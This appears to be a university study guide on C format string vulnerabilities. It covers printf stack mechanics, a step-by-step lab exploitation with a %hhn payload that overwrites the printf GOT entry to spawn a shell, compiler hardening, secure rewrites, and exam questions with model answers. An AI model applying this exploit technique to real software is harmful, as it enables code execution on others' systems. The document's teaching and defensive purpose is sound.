






# Format String

<!-- SECTION_1_START -->
# Format String Vulnerability — Core Definition & Intuitive Overview

## 1.1 Formal Definition (KTU 2024 Syllabus Terminology)

> [!IMPORTANT]
> **Format String Vulnerability** is a class of software vulnerability that occurs when an application uses **user-supplied input directly as the format string argument** to a C/C++ `printf`-family function (e.g., `printf()`, `sprintf()`, `fprintf()`, `syslog()`, `wprintf()`) without a corresponding, properly-typed argument list. The attacker can supply format specifiers (e.g., `%x`, `%s`, `%n`) that cause the function to **read from or write to arbitrary memory locations** on the program stack, leading to information disclosure, denial of service, or arbitrary code execution.

In KTU 2024 Scheme parlance, this falls under **Module 1 — Application-Level Security Threats**, classified as a *memory-corruption / injection* bug, sitting alongside Buffer Overflow and SQL Injection in severity.

---

## 1.2 Conceptual Analogy — The "Postman With No Letter"

Imagine you tell a postman: *"Here is the letter, deliver it to the address written on the envelope."* That is **safe code** — the *format string* (the template) is fixed, and the *arguments* (the variables) are explicit.

Now imagine you hand the postman a **blank piece of paper** and tell him: *"Read the address off this paper, and deliver the letter."* A malicious person has now scribbled *"Open every mailbox on the street and read their contents."* The postman — being obedient — does exactly that.

That is the **Format String bug**.

| Role | Real World | C Program |
|---|---|---|
| Postman | Postal worker who follows instructions | `printf()` function |
| Blank paper | User-controlled input string | `char user_input[64];` |
| Address template | Format string (e.g., `"Hello %s"`) | `"Hello %s"` |
| Malicious scribble | `%x %x %x %n` | Format specifier injection |

---

## 1.3 Where the Vulnerability Lives — The `printf()` Family

The vulnerability is rooted in how C handles **varargs (variable arguments)**. The function trusts that every `%` token in the format string has a matching argument on the stack. If the attacker controls the format string, the function will keep popping values from the stack as if they were arguments — even if they aren't.

> [!NOTE]
> **Affected Functions in the C Standard Library:**
> - `printf(const char *format, ...)`
> - `fprintf(FILE *stream, const char *format, ...)`
> - `sprintf(char *str, const char *format, ...)`
> - `snprintf(char *str, size_t size, const char *format, ...)`
> - `syslog(int priority, const char *format, ...)`
> - `warn(const char *format, ...)` / `err()` (BSD)
> - Any wrapper or logging function that ultimately calls one of the above

---

## 1.4 The "Hello, Attacker!" First Demonstration

**Vulnerable code (C):**

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    printf(argv[1]);          // user passes "Hello %x %x %x"
    return 0;
}
```

**Run by attacker:**
```bash
$ ./vuln "AAAA %x %x %x %x %x"
AAAA 252c7825 20782520 41414141 ...
```

The function printed the literal characters `AAAA` (the user's bytes) **and then popped four extra "arguments" from the stack** — leaking the program's internal memory to the attacker.

> [!WARNING]
> **Real-world impact:** Format String bugs have been the root cause of CVEs in **WU-FTPD (CVE-2000-0573)**, **OpenSSH (CVE-2001-0732)**, **Apache mod_log_config**, **PHP `error_log()`**, and many router/IOT firmwares.

---

## 1.5 Geometric / Stack-Frame Intuition

When `printf` is called, the stack frame looks like this (high → low addresses):

```
  ┌──────────────────────────────┐  ←  Higher addresses
  │  Return Address              │
  ├──────────────────────────────┤
  │  Saved Frame Pointer (EBP)   │
  ├──────────────────────────────┤
  │  format  (pointer to "%x%x") │  ← 1st arg
  ├──────────────────────────────┤
  │  ???                        │  ← printf thinks arg#2 is here
  ├──────────────────────────────┤
  │  ???                        │  ← arg#3
  ├──────────────────────────────┤
  │  AAAA (0x41414141)          │  ← arg#4 — attacker-controlled
  ├──────────────────────────────┤
  │  ...                        │
  └──────────────────────────────┘  ← Lower addresses (ESP)
```

Every `%x` makes `printf` step one slot downward and read 4 bytes (on a 32-bit system) or 8 bytes (on 64-bit). The attacker simply **places the value they want read at a known position** by stuffing it into the format string itself.

> [!VISUALIZATION CONTROL]
> **Concept:** Stack-walk of `printf` reading attacker-controlled offsets
> **GeoGebra / Desmos Input Equations:**
> * `f(n) = BaseAddress + n * WordSize` (linear stack walk)
> * `WordSize = 4` (x86) or `WordSize = 8` (x86_64)
> **Visual Description:** A vertical line on the y-axis representing memory addresses (high at top, low at bottom). Each `%x` is a "step" of size `WordSize` moving downward. Plot points at every step to see how the attacker walks into local variables, saved EBP, and finally the return address.

---

## 1.6 Why It Matters in the KTU Cyber Security Curriculum

| Module Mapping | KTU 2024 Outcome |
|---|---|
| Identify sources of information-security threats | **CO1** |
| Recognise application-layer attack surfaces | **CO2** |
| Apply secure-coding practices to mitigate threats | **CO3** |
| Analyse CVEs and exploitation patterns | **CO4** |

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Format String — Deep Theoretical Analysis & KTU High-Yield Cheat Sheet

## 2.1 Anatomy of a Format Specifier

A C format specifier follows the grammar:

```
%[flags][width][.precision][length]specifier
```

| Specifier | Meaning | Memory Effect |
|---|---|---|
| `%d` | Print next argument as signed `int` | **READ** 4 bytes (or 8) from stack |
| `%u` | Print next argument as unsigned `int` | READ |
| `%x` / `%X` | Print next argument as hex | READ |
| `%p` | Print pointer (void*) | READ |
| `%s` | Print string at pointer | **READ** until `\0` (information leak) |
| `%n` | Write count of bytes printed so far to `int*` | **WRITE** to stack |
| `%hn` | Write count as `short` (2 bytes) | WRITE (half-word) |
| `%hhn` | Write count as `char` (1 byte) | WRITE (byte-level) |
| `%ln` | Write count as `long` | WRITE |
| `%lln` | Write count as `long long` | WRITE (8 bytes) |
| `%lx` | Read as `unsigned long` | READ (8 bytes on x86_64) |
| `%<N>$x` | **Direct parameter access** — read the *N*-th argument | READ (positional) |

> [!NOTE]
> **`%n` is the crown jewel of the attack.** It transforms a *read* vulnerability into a *write* primitive, which means arbitrary code execution (ACE).

---

## 2.2 The Two Core Attack Primitives

### Primitive A — **Information Disclosure (Stack Reading)**

By placing markers (e.g., `AAAA` = `0x41414141`) inside the format string, the attacker uses positional specifiers (`%4$x`) to identify **which argument slot** they control. Once located, the same slot is read with `%4$s` to **leak a pointer from memory** (e.g., a libc address), defeating ASLR.

### Primitive B — **Arbitrary Memory Write**

Using `%n`, the attacker writes the *number of bytes already printed* into a target address. Since the attacker can control the printed byte count via `%<width>c`, and the target address via positional specifiers, they can write **any 4-byte value to any 4-byte-aligned address** — perfect for overwriting the **GOT (Global Offset Table)**, return address, or `__free_hook` / `__malloc_hook` in libc.

---

## 2.3 Exploitation Phases — A Structured Walk-Through

| Phase | Goal | Typical Payloads |
|---|---|---|
| **1. Fuzzing** | Confirm the bug | `"%x %x %x %x"` → see hex dump on screen |
| **2. Offset discovery** | Find where input lands on the stack | `"AAAA%6$x"` → observe `41414141` |
| **3. Leak (READ)** | Defeat ASLR, find libc / canary / PIE base | `"%7$s"` (read pointer at known slot) |
| **4. Write (using `%n`)** | Overwrite GOT / return addr | `"%<N>c%<offset>$hn"` with target address in payload |
| **5. Trigger** | Call the overwritten function | Redirects flow to `system("/bin/sh")` or one-gadget |

---

## 2.4 Direct Parameter Access — The Modern Bypass

Without positional access, a 32-bit attacker needs to leak by counting `%x`'s. With **positional specifiers** (C99 feature, supported by glibc), they can jump directly to slot N:

```c
printf("%3$x %1$x %2$x", 0x1111, 0x2222, 0x3333);
// Output: 3333 1111 2222
```

This dramatically reduces payload size — critical for buffer-limited exploits.

---

## 2.5 KTU High-Yield Cheat Sheet

| Concept | Formula / Rule | Notes |
|---|---|---|
| Stack walk per `%x` | `addr = ESP + k * w` | $k$ = position, $w$ = 4 (x86) or 8 (x86_64) |
| Bytes printed counter | $C = \sum_{i} \text{width}_i$ | Used by `%n` as the value to write |
| Value written by `%n` | $V = C$ (mod $2^{32}$) | 4-byte write |
| Value written by `%hn` | $V = C$ (mod $2^{16}$) | 2-byte write |
| Value written by `%hhn` | $V = C$ (mod $2^{8}$) | 1-byte write |
| Total writes for arbitrary 4-byte | $n_{\text{writes}} = 4$ | One per byte using `%hhn` |
| Width required to write byte $b$ | $w_i = (b_i - C_{\text{prev}} + 256) \bmod 256$ | "Distance" to next byte |
| Address placement | Address bytes at known offset $O$ | Use `%O$n` to write there |

> [!IMPORTANT]
> **All `|x|`-style absolute values in KTU answer sheets must be written as `\lvert x \rvert` to avoid markdown table breakage.** (Same applies to your answer sheets, students!)

---

## 2.6 Why It Is Engineering-Critical

| Industry Use-Case | Real-World Relevance |
|---|---|
| **Operating Systems** | Linux kernel `printk` / `seq_printf` audit |
| **Web Servers** | Apache `ap_log_error`, nginx custom log formats |
| **Databases** | MySQL, PostgreSQL client protocol parsers |
| **IOT / Firmware** | Routers, IP cameras, smart devices using BusyBox `syslog` |
| **Compilers / IDEs** | Diagnostic printers, `assert()` messages |
| **CTF & Pwn Challenges** | Canonical "warm-up" binary-exploitation exercise |

> [!NOTE]
> **In production:** Microsoft, Google, and Red Hat all run **static analysis** (`/W4 /GS` on MSVC, `-Wformat-security -D_FORTIFY_SOURCE=2` on GCC) to catch format-string mistakes at compile time. CWE-134 is the **MITRE** identifier: *"Use of Externally-Controlled Format String."*

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Exploitation & Secure-Code Implementation

## 3.1 The Vulnerable Source File — `vuln.c`

```c
/*
 * vuln.c — deliberately vulnerable program for KTU lab demonstration.
 * Compile: gcc -m32 -fno-stack-protector -no-pie -o vuln vuln.c
 */
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char banner[64];

    if (argc < 2) {
        fprintf(stderr, "Usage: %s <name>\n", argv[0]);
        return 1;
    }

    /* VULNERABILITY: user input passed directly as format string */
    printf(argv[1]);

    return 0;
}
```

> [!WARNING]
> Compiling with `-m32 -fno-stack-protector -no-pie` is **only for educational lab VMs**. Never disable protections on production or exam-practical machines.

---

## 3.2 Step 1 — Confirm the Vulnerability (Fuzzing)

**Compile and run:**
```bash
$ gcc -m32 -fno-stack-protector -no-pie -o vuln vuln.c
$ ./vuln "Hello, %s!"
Hello, Hello, !              # %s read whatever followed on the stack
$ ./vuln "%x %x %x %x %x %x %x"
c0 48 4d f7 ff e2 40 00     # raw stack contents leaked!
```

**Interpretation:** Every `%x` is a **4-byte leak**. If the program had been 64-bit, every `%lx` or `%p` would leak 8 bytes.

---

## 3.3 Step 2 — Discover the Input Offset

We want to know: **at which stack position does our input string itself appear?**

```bash
$ ./vuln "AAAA%1$x"
AAAAbffff440              # position 1 = some pointer

$ ./vuln "AAAA%6$x"
AAAA41414141              # <-- 'AAAA' = 0x41414141!
```

So on this 32-bit binary, **the attacker's input string starts at position 6** of `printf`'s argument list.

> [!TIP]
> On **64-bit** systems the offset is usually higher (≈ 7–9) because the format string pointer and the first 5 register-passed arguments consume the top of the varargs window. Always brute-force it:
> ```bash
$ for i in $(seq 1 20); do
>     echo -n "pos=$i: "
>     ./vuln "AAAA%$i\$x"
> done
> ```

---

## 3.4 Step 3 — Leak a libc Address (Defeat ASLR)

```bash
$ ./vuln "%7\$p"     # 7th slot on this binary holds a libc pointer
0xf7e2e2c0            # → ASLR-leaked address
```

Cross-referencing with `gdb`:
```
(gdb) p __libc_start_main
$1 = {int (...)} 0xf7e1e2d0
```

The leak reveals the **libc base**, enabling calculation of `system()` and `"/bin/sh"` addresses.

---

## 3.5 Step 4 — Arbitrary Write Using `%n` (Conceptual Walk-Through)

We want to overwrite the **GOT entry of `printf`** with the address of `system()`. Then the next call to `printf` will actually call `system`.

**Layout of the payload (32-bit):**

```
[ address1 ][ address2 ][ address3 ][ address4 ][ padding+specifiers ]
   4 bytes    4 bytes    4 bytes    4 bytes
```

**Specifiers block** (one `%hhn` per byte):

```python
# pwntools-style pseudo-code (do not run on a real system)
payload  = p32(target_got)          # byte 0 will be written here
payload += p32(target_got + 1)      # byte 1
payload += p32(target_got + 2)      # byte 2
payload += p32(target_got + 3)      # byte 3

# We are now at offset 6+4 = 10 on the stack (input starts at 6)
payload += b"%10$hhn"               # write 1 byte
payload += b"%11$hhn"               # write 1 byte
payload += b"%12$hhn"
payload += b"%13$hhn"
```

**The math (for each `%hhn`):** If we want byte $b_i$ of `system()`'s address to be the count $C_i$ of bytes printed, we set the width of the next `%c` to:
$$w_i = (b_i - C_{\text{prev}}) \bmod 256$$

So:
$$\text{width}_i = \left( b_i - \sum_{j<i} \text{bytes emitted}_j \right) \bmod 256$$

```python
# Generate widths
target_addr = 0xf7e3da50    # system() computed from leak
got_printf  = 0x0804c010

payload  = p32(got_printf + 0) + p32(got_printf + 1) + p32(got_printf + 2) + p32(got_printf + 3)
printed  = 16                # 4 addresses already printed
for i, byte in enumerate(p32(target_addr)):
    w   = (byte - printed) % 256
    payload += f"%{w}c%{10 + i}$hhn".encode()
    printed += w
print(payload)
```

After this payload is `printf`'d, the GOT entry of `printf` is overwritten. The next `printf` call (or our follow-up call) jumps to `system`, and we now have a shell.

---

## 3.6 Step 5 — Trigger the Hijack

```bash
$ ./vuln "$(python3 -c 'print(payload)')"
... lots of whitespace ...
$                    # ← we now have a shell because printf == system
```

---

## 3.7 Secure-Code Implementation (Defence)

### Fix #1 — Pass user input as an **argument**, never as the format string

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    if (argc < 2) {
        fprintf(stderr, "Usage: %s <name>\n", argv[0]);
        return 1;
    }
    /* SAFE: format string is a literal, user input is an argument */
    printf("%s", argv[1]);
    return 0;
}
```

### Fix #2 — Compiler hardening flags (mandatory in production builds)

```bash
gcc -O2 -D_FORTIFY_SOURCE=2 -Wformat -Wformat-security -Werror=format-security \
    -fstack-protector-strong -pie -fPIE vuln.c -o vuln
```

With `-D_FORTIFY_SOURCE=2`, glibc replaces `printf` with `__printf_chk`, which **inspects the format string and the actual argument types at runtime**, aborting the program if a mismatch is detected.

### Fix #3 — Use a type-safe alternative

In modern C++, prefer `std::cout` (C++ Streams) or `std::format` (C++20):

```cpp
#include <format>
#include <iostream>

int main(int argc, char *argv[]) {
    if (argc < 2) return 1;
    std::cout << std::format("Hello, {}!\n", argv[1]);   // type-safe, no varargs
    return 0;
}
```

### Fix #4 — Defensive logging wrapper

```c
#include <stdio.h>
#include <stdarg.h>

/* Always-fixed internal format string */
void safe_log(const char *user_msg) {
    printf("[LOG] %s\n", user_msg);   // user input becomes an argument
}

int main(int argc, char *argv[]) {
    if (argc < 2) return 1;
    safe_log(argv[1]);
    return 0;
}
```

---

## 3.8 Comparative Vulnerability Table

| Property | Format String | Buffer Overflow | SQL Injection |
|---|---|---|---|
| Injection vector | Format specifiers in `printf` family | Memory copy of unbounded data | SQL fragments in queries |
| Primary effect | Arbitrary read / write | Stack smashing, RCE | Database read / write |
| Discoverability | Easy (`%x %x %x` probe) | Easy (long input probe) | Easy (`' OR 1=1--`) |
| Severity (CVSS) | **9.8 Critical** (when remote) | 9.8 Critical | 7.5–9.8 |
| CWE | **CWE-134** | CWE-120 / CWE-121 | CWE-89 |
| Primary defence | Use `"%s"` with input as arg | Bounds checking, canaries | Parameterised queries |

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Schematics

## 4.1 Mermaid — End-to-End Exploitation Pipeline



## 4.2 Mermaid — Memory Layout During printf Call



## 4.3 Mermaid — Decision Tree: Is My Code Vulnerable?



## 4.4 Mermaid — Attack Sequence (Read-Then-Write)



## 4.5 Block-Level Functional Architecture (Defence-in-Depth)



<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank & Topic Recap

## 5.1 Part A — Short Answer Questions (3 Marks Each)

> Mapping: **CO1 — Remember/Understand**

### Q1. [KTU University Exam — July 2024]
**Define the term "Format String Vulnerability" with one real-world example.**

**Model Answer (3 marks):**

> A Format String vulnerability occurs when user-supplied input is passed directly as the **format string argument** of a C/C++ `printf`-family function (e.g., `printf`, `fprintf`, `syslog`) without a corresponding argument list. This allows an attacker to inject **format specifiers** such as `%x`, `%s`, or `%n` to read from or write to arbitrary memory locations. **Example:** The WU-FTPD remote root exploit (**CVE-2000-0573**) used a malicious `SITE EXEC` command containing `%x` specifiers to leak stack memory, eventually leading to root code execution on the FTP server. **[1 mark for definition, 1 mark for affected functions, 1 mark for CVE example].**

---

### Q2. [KTU University Exam — Dec 2023]
**List four format specifiers used in C and explain the security impact of `%n`.**

**Model Answer (3 marks):**

| Specifier | Use | Security Impact |
|---|---|---|
| `%d` / `%i` | Print signed integer | Reads 4 bytes from stack — **info disclosure** |
| `%x` / `%X` | Print hexadecimal | Reads 4 bytes as hex — **info disclosure** |
| `%s` | Print string | Reads a pointer from stack, follows it until `\0` — **arbitrary read** |
| `%p` | Print pointer | Reveals pointer values — **defeats ASLR** |
| `%n` | Writes byte count so far to an `int*` | **Arbitrary 4-byte memory write** — leads to **arbitrary code execution** |

`%n` is the most dangerous specifier because it **transforms a read-only information-disclosure bug into a write primitive**, which can be chained with further exploitation to overwrite control-flow data and gain a shell. **[1 mark for specifier list, 1 mark for impact explanation, 1 mark for `%n` severity].**

---

## 5.2 Part B — 14-Mark Questions (Module Internal Choice)

> Mapping: **CO2 + CO3 — Understand + Apply + Analyse**

### Question A (14 Marks)

#### (a) [7 Marks] [KTU University Exam — July 2024] **[Understand / CO2]**
**With a neat diagram, explain how the `printf()` function reads arguments from the stack and how an attacker can exploit the format string to leak memory. Identify the CWE identifier of this vulnerability.**

**Model Answer:**

**Stack layout when `printf(user_input)` is called (assume x86 32-bit):**

```
High Address
  ┌────────────────────────┐
  │  Return Address        │
  ├────────────────────────┤
  │  Saved EBP             │
  ├────────────────────────┤
  │  format pointer (arg0) │ ← 1st implicit arg
  ├────────────────────────┤
  │  arg1 (slot 1)         │ ← 1st %x reads here
  ├────────────────────────┤
  │  arg2 (slot 2)         │ ← 2nd %x reads here
  │  ...                   │
  ├────────────────────────┤
  │  ATTACKER INPUT        │ ← appears at slot N
  │  e.g. "AAAA%x%x..."    │
  └────────────────────────┘
Low Address
```

**Mechanism:**
1. `printf` parses the format string character by character.
2. When it encounters a `%x`, it pops the **next 4 bytes** from the stack as if it were the matching `int` argument.
3. Since the developer provided **no arguments**, the function just reads whatever happens to be on the stack — local variables, return addresses, libc pointers, canary values.
4. By placing a recognisable marker (e.g., `0x41414141`) at a known offset inside the format string, the attacker can use **positional specifiers** like `%6$x` to identify which slot is attacker-controlled and read the value at that slot with `%6$s`.

**Valuation Key:**
- *Drawing the labelled stack frame: 2 marks*
- *Explaining the varargs mechanism: 2 marks*
- *Showing how `%x` walks the stack: 2 marks*
- *Identifying CWE-134 ("Use of Externally-Controlled Format String"): 1 mark*

---

#### (b) [7 Marks] [Apply / CO3]
**Consider the following C code:**
```c
#include <stdio.h>
int main(int argc, char *argv[]) {
    printf(argv[1]);
    return 0;
}
```
**(i)** Rewrite the code in a secure manner. **(ii)** State **two compile-time flags** that would have detected this vulnerability. **(iii)** Identify the MITRE CWE identifier.

**Model Answer:**

**(i) Secure rewrite (3 marks):**
```c
#include <stdio.h>
int main(int argc, char *argv[]) {
    if (argc < 2) {
        fprintf(stderr, "Usage: %s <name>\n", argv[0]);
        return 1;
    }
    /* SAFE: format string is a literal, user input becomes an argument */
    printf("%s", argv[1]);
    return 0;
}
```
*Valuation:* 1 mark for using a literal format, 1 mark for passing input as argument, 1 mark for argument count check.

**(ii) Compile-time flags (2 marks):**
| Flag | Effect |
|---|---|
| `-D_FORTIFY_SOURCE=2` | Runtime replacement with `__printf_chk` aborts on format mismatch |
| `-Wformat -Wformat-security -Werror=format-security` | Compile-time warning → error if format string is not a literal |

**(iii) CWE identifier (2 marks):**
**CWE-134: Use of Externally-Controlled Format String** (also tracked under **CAPEC-135: Format String Injection**).

> [!WARNING]
> **Common Pitfall:** Students often write `printf("%s", user_input)` correctly but forget to **mention the compiler flags**. A 2-mark sub-part is lost easily. Always pair the code fix with the build-system fix.

---

### Question B (14 Marks) — Alternative Choice

#### (a) [7 Marks] [Apply / CO3] [KTU University Exam — Dec 2023]
**Explain in detail the phases of a Format String exploit — from information leakage to arbitrary code execution. Use a labelled diagram of the attack flow.**

**Model Answer (Phases of exploitation):**

| Phase | Goal | Typical Input | Result on Screen / Memory |
|---|---|---|---|
| **1. Confirm bug** | Verify vulnerability | `"%x %x %x %x %x"` | Hex dump of stack |
| **2. Discover offset** | Find input position | `"AAAA%6$x"` | `AAAA41414141` |
| **3. Leak (read)** | Defeat ASLR | `"%7$p"` | Libc address leaked |
| **4. Compute target** | Calculate `system()` and GOT | (offline) | Addresses ready |
| **5. Write (using `%n` / `%hn` / `%hhn`)** | Overwrite control data | `payload = p32(GOT) + ... + %<w>c%<N>$hhn ...` | GOT entry replaced |
| **6. Trigger** | Invoke overwritten function | any call to overwritten function | Shell / code execution |

**Attack-flow diagram (3 marks):**



*Valuation:* 1 mark per phase explanation (6 marks) + 1 mark for diagram.

---

#### (b) [7 Marks] [Analyse / CO4]
**Compare Format String vulnerability with Buffer Overflow vulnerability under the following heads: (i) root cause, (ii) exploitation primitive, (iii) primary defence, (iv) CWE identifier, (v) severity under CVSS v3.1, (vi) real-world CVE, (vii) detection tooling. Present your answer in a tabular form.**

**Model Answer (7 marks — 1 per row, plus 1 for presentation):**

| Head | Format String | Buffer Overflow |
|---|---|---|
| (i) Root cause | User input passed as format string to `printf` family | Unbounded memory copy into fixed-size buffer |
| (ii) Primitive | Arbitrary **read** (`%s`, `%p`) and **write** (`%n`) via stack walking | Adjacent memory overwrite → control-flow hijack |
| (iii) Primary defence | Use literal format strings, `-D_FORTIFY_SOURCE=2` | Bounds checking, canaries, ASLR, `-fstack-protector` |
| (iv) CWE ID | **CWE-134** | **CWE-120** (classic) / **CWE-121** (stack) |
| (v) CVSS v3.1 | Up to **9.8 Critical** (network, low complexity, no priv) | Up to **9.8 Critical** |
| (vi) Real CVE | **CVE-2000-0573** (WU-FTPD), **CVE-2001-0732** (OpenSSH syslog) | **CVE-2014-0160** (Heartbleed — over-read), **CVE-2019-0708** (BlueKeep) |
| (vii) Detection tooling | `cppcheck --enable=warning,style`, `clang-tidy`, Semgrep rule `cpp.lang.security.format-string` | ASan, Valgrind, `-fsanitize=address`, CodeQL |

> [!WARNING]
> **Examiner's Pitfall Callout:** Students frequently *only* write about Format String in part (b) and forget to compare it with Buffer Overflow column-wise. KTU evaluators look for **parallel structure**. A 7-mark comparison question demands a **side-by-side table**, not two separate paragraphs.

---

## 5.3 Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **Rapid Revision Checklist — Format String Vulnerability**

### Core Definitions
- **Format String Vulnerability** = User input used as the format argument of a `printf`-family function.
- **CWE-134** ("Use of Externally-Controlled Format String") and **CAPEC-135** ("Format String Injection") are the canonical identifiers.
- **Affected functions:** `printf`, `fprintf`, `sprintf`, `snprintf`, `syslog`, `warn`, `err`, `wprintf`, custom wrappers.

### The Two Attack Primitives
- **READ primitive:** `%x`, `%s`, `%p` → information disclosure (libc base, canary, PIE base, environment).
